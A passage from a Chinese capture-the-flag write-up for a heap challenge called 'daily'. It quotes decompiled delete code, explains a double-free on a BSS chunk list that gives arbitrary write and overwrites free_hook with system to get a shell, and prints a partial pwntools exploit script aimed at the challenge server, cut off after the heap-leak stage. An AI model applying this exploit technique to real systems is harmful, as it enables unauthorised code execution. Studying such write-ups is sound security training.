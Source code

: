 ```
    printf("Please enter the index of daily:");
    read(0, &buf, 8uLL);
    v1 = atoi(&buf);
    if ( chunk[v1].ptr )
    {
      free((void *)chunk[v1].ptr);
      chunk[v1].ptr = 0LL;
      LODWORD(chunk[v1].len) = 0;
      puts("remove successful!!");
      --chunk_num;
}
```

然后利用`Double free`得到`bss`段上的`chunk_list`,然后控制`chunk`，实现任意地址写，然后我们写`free_hook`地址为`system`，再`free`的时候就可以`getshell`了。在这之前，我们尝试了申请到`malloc_hook`前面然后把`malloc_hoook`覆盖为`one_gadget`，但是没有一个`one_gadget`可以成功，主要是因为条件没有满足，后来就直接写`free_hook`了。
详细脚本如下：

```
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60006)

def show():
	p.recvuntil(":")
	p.sendline("1")
def create(lens,content):
	p.recvuntil(":")
	p.sendline("2")
	p.recvuntil(":")
	p.sendline(str(lens))
	p.recv()
	p.send(content)
def change(index,content):
	p.recvuntil(":")
	p.sendline("3")
	p.recvuntil(":")
	p.sendline(str(index))
	p.recv()
	p.send(content)
def delete(index):
	p.recvuntil(":")
	p.sendline("4")
	p.recvuntil(":")
	p.sendline(str(index))
chunk_list = 0x602060
def exp():
	create(0x60,"a"*0x20)#0
	create(0x60,"a"*0x20)#1
	create(0x60,"b"*0x20)#2
	delete(0)
	delete(1)
	create(0x60,"a")#0
	show()
	p.recvuntil("0 : a")
	data = "\x00"+p.recvuntil("2",drop=True)
	heap = u64(data.ljust(8,"\x00"))
	print "[*]heap : ", hex(heap)

	create(0x100,"a"*0x20)#1
```